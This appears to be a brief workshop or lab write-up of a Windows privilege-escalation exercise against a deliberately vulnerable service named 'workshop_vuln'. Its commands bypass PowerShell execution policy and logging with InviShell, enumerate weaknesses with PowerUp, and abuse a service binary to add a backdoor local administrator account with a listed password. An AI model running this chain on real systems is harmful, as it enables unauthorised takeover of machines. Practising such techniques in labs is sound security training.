

# EXPLOITATION

## Enumeration
```
C:\Users\insider>Z:\InviShell\RunWithRegistryNonAdmin.bat
```
```
PS C:\Users\insider> powershell -ep bypass
```
```
PS C:\Users\insider> Import-Module Z:\PowerUp.ps1
```
```
PS C:\Users\insider> Invoke-AllChecks -Verbose
```

## Privilege Escalation
```
Install-ServiceBinary -Name 'workshop_vuln' -Command 'net user f0ns1 Passw0rd1! /add && net localgroup Administradores f0ns1 /add'
```
```
shutdown /r /t 0
```


## Access

```
f0ns1:Passw0rd1!
```

